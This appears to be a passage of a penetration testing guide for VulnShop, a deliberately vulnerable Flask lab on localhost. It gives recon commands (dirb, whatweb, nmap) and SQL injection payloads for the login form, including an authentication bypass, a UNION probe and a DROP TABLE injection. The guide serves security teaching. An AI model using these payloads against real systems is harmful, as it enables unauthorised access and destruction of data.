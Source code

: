 # 🔍 VulnShop Penetration Testing Guide

This guide provides detailed information for security professionals and students on how to test and exploit the vulnerabilities in VulnShop.

## 🎯 Target Information

**Application**: VulnShop - Vulnerable E-Commerce Platform  
**URL**: http://localhost:5000  
**Technology Stack**: Python Flask, SQLite, HTML/CSS/JavaScript  
**Purpose**: Educational vulnerability lab for security testing

## 📝 Methodology

### Phase 1: Reconnaissance & Information Gathering

1. **Application Mapping**
   ```bash
   # Directory enumeration
   dirb http://localhost:5000
   
   # Technology detection
   whatweb http://localhost:5000
   
   # Port scanning
   nmap -sV localhost
   ```

2. **Manual exploration**
   - Browse all pages and functionality
   - Identify input fields, forms, and parameters
   - Note error messages and debug information
   - Check for hidden endpoints in source code

### Phase 2: Vulnerability Assessment

## 🔓 1. SQL Injection

**Endpoint**: `/login`  
**Parameter**: `username`, `password`  
**Type**: Error-based, Union-based, Boolean-based blind

### Manual Testing
```
Username: ' OR '1'='1' --
Password: anything

Username: ' UNION SELECT 1,2,3,4,5 --
Password: test

Username: admin'; DROP TABLE users; --
Password: test
```
